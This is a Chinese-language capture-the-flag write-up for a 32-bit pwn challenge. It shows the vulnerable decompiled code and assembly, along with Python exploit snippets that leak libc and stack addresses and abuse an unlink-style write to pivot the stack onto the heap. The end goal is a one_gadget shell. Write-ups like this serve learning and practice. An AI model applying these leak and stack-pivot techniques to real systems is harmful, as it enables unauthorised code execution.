

### writeup 

第一次做pwn，很紧张啊 。。。。 虽然题目很简单，但是我还是做了很久。



#### 题目条件

题目有两次泄露，可以泄露任意地址的内容：

```c
  v3 = (char *)malloc(0x14u);
  buf = v3;
  v3[read(0, v3, 15u) - 1] = 0;
  v5 = (_DWORD *)atoll(buf);
  printf("%d, %p\n", v5, *v5);
  puts("Second chance: ");
  buf[read(0, buf, 0xFu) - 1] = 0;
  v6 = (_DWORD *)atoll(buf);
  printf("%d, %p\n", v6, *v6);
```

然后有一次任意地址写入的机会：

```c
  v7 = (node *)malloc(0x14u);
  printf("The address of the node is %p, and you can input the fake node now: ", v7);
  read(0, v7, 0x10u);
  v8 = (node *)v7->prev;
  v9 = (node *)v7->next;
  v8->next = (int)v9;
  v9->prev = (int)v8;
  return 0;
```

#### 利用思路 

第一次写入 puts 函数的 got 表地址，然后泄露出来 puts 函数的加载地址，计算出来 libc 的加载基址。

```python
putsGot = e.got['puts']
print("[*] puts got addrss :" + hex(putsGot))

r.sendline(str(putsGot)) # puts got

putAddr = r.recvline()[-11:-1]
print("[*] put address: "+putAddr)
putSymbol = libc.symbols["puts"]
print("[*] puts function symbols addr:" + hex(putSymbol))
libcBase = int(putAddr,16) - putSymbol
print("[*] libc Base addr :"+hex(libcBase))
```

第二次写入 program_invocation_name 的地址，它是指向栈的指针，泄露出来的就是栈地址。

program_invocation_name 和 ebp 之间的偏移是固定的，调试一下发现偏移是 690 ，可以得到 ebp 的地址。

```python
invocation_name_symbols = libc.symbols["program_invocation_name"]
invocation_short_name_symbols = libc.symbols["program_invocation_short_name"] 
print("[*] program_invocation_name symbols addr : "+ hex(invocation_name_symbols))
print("[*] program_invocation_short_name symbols addr : "+ hex(invocation_short_name_symbols))
invocation_name_addr = invocation_name_symbols + libcBase
invocation_short_name_addr = invocation_short_name_symbols + libcBase
print("[*] program_invocation_name addr: " + hex(invocation_name_addr))
print("[*] program_invocation_short_name addr: " + hex(invocation_short_name_addr))
print(r.recvline())
r.sendline(str(invocation_name_addr))
stackAddr = r.recvline()[-11:-1]
ebpAddr = int(stackAddr,16) - 690
print("[*] stackAddr:"+ stackAddr)
```

思路是修改 ebp 的地址，在 main 函数返回时执行 `leave` 的时候，修改 esp 的地址，做一次栈迁移，
在自己伪造的栈上放上 one_gadget 的地址，执行 retn 的时候，就会拿到shell。

但是有个问题，我们不能直接改 ebp ， 因为没用。

```asm
.text:080486D3                 add     esp, 10h
.text:080486D6                 mov     eax, [ebp+var_14]
.text:080486D9                 mov     eax, [eax+0Ch]
.text:080486DC                 mov     [ebp+var_10], eax
.text:080486DF                 mov     eax, [ebp+var_14]
.text:080486E2                 mov     eax, [eax+8]
.text:080486E5                 mov     [ebp+var_C], eax
.text:080486E8                 mov     eax, [ebp+var_10]
.text:080486EB                 mov     edx, [ebp+var_C]
.text:080486EE                 mov     [eax+8], edx
.text:080486F1                 mov     eax, [ebp+var_C]
.text:080486F4                 mov     edx, [ebp+var_10]
.text:080486F7                 mov     [eax+0Ch], edx
.text:080486FA                 mov     eax, 0
.text:080486FF                 mov     ecx, [ebp-4]
.text:08048702                 leave
.text:08048703                 lea     esp, [ecx-4]
.text:08048706                 retn
```
在 `leave` 指令执行之后，又修改了 esp `lea     esp, [ecx-4]` , 所以可以通过修改 `ebp - 4` 的值来控制 `esp`。

但是，要在哪里伪造 fake stack 呢？ 发现题目给了堆地址， 可以把fake 栈的地址伪造到堆上 。 

```python
heapAddr = int(r.recv(1024)[27:36],16)
print("[*] heap addr :" + hex(heapAddr))
# gdb.attach(r,"b *0x08048702")
one_gadget = 0x3ac5c 

print("[*] move eip to :" + hex(0x5fbc5 + libcBase))
r.sendline(p32(one_gadget + libcBase)+p32(one_gadget + libcBase)+p32(heapAddr + 4 )+p32(ebpAddr-4 -8))
```
地址是 `0x3ac5c` 的 one_gadget , 需要的条件是 ：

```bash
0x3ac5c	execve("/bin/sh", esp+0x28, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x28] == NULL
```
调试一下发现刚好满足。